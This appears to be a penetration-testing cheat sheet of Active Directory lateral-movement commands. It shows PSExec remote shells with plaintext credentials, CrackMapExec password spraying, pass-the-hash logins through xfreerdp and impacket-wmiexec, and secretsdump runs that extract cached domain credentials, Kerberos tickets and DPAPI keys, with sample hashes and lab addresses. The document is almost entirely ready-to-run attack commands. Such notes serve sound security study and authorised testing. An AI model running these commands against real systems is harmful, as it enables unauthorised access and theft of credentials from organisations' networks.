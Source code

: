 
### PSExec 
```PowerShell
PSExec.exe \\dc01 cmd # or use the IP of the domain you want to connect to.
# while providing creds in one like use the - [$DOMAIN NAME]\[$USERNAME]:[$PASSWORD]
.\PSExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

---

### CrackMapExec (NetExec)
```bash
# spray passwords
cme 192.168.216.70-75 -u users.txt -p passwords.txt -d corp.com --continue-on-success

```

---

### XFreeRDP
```bash
xfreerdp /u:'Username' /p:'Password' /v:'IPAddress' /d:'domain' /pth:'hash' /cert:ignore
```

---

### Impacket-WMIExec.py
```bash
# Make sure you try starting the hash with the ':' symbol.
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
# wmiexec is a tool that is used gain a shell if you have the creds.
```

---

### Impacket-Secretsdump.py
```bash
## Secrets consists of -
# * Cached Domain Credentials
# * Kerberos Tickets
# * DPAPI Master Keys
# * Service Account Credentials

# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

---